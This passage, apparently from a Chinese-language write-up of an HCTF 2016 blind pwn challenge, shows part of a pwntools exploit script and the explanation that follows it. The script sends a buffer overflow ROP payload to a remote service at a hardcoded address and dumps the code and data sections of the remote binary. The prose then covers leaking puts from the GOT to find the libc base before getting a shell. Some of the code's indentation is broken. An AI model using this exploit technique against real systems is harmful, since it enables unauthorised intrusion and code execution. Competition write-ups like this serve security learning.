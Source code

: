 ```python
            io.sendline(payload)
            #io.recvline()
            d+=io.recvline()[:-1]+'\x00'
            print'**************d='+d
            if len(d)>0x9bc:
                break
        except EOFError:
            print'---------------------------------------connect again'
             
    f=open('code.bin','wb')
    f.write(d)
    f.close()
#---------------------dump date section
    base=0x601000
    d=''
    while True:
    print'd='+d
    try:
        io.recvuntil('Do you know password?\n')
        payload='a'*72+p64(pop_rdi_ret)+p64(base+len(d))+p64(puts_plt)+p64(main_addr)
        #payload='a'*48
        io.sendline(payload)
        io.recvline()
        d+=io.recvline()[:-1]+'\x00'
        print'**************d='+d
        if len(d)>0x248:
            break
        except EOFError:
            print'---------------------------------------connect again'
            io=remote('115.28.78.54',13455)
    f=open('data.bin','wb')
    f.write(d)
    f.close()
 
    io.interactive()
 
exp4()
```
得到code.bin后查看code.bin偏移为0x570地址的内容，该地址为0x400570,对应puts函数的plt表地址，其中应该存放的是一个'jmp *puts_got'指令。

**在这里有一个技巧：**随意拖一个程序到gdb，通过gdb中set命令修改0x400570内存为相应的机器码，就可以从机器码得到汇编代码了。

由下图可知：远端程序puts函数的got表地址为0x601018
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-12-03-Hctf-fuzzPwn/6.png)
知道put_got表地址后，就可以从data.bin中查看0x18地址,即0x601018地址内容，此时就可以泄露puts函数的内存地址，从而可以泄露libc基址了
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-12-03-Hctf-fuzzPwn/7.png)
此次，基本信息已经全部获得，下面就是常规的getshell过程了。

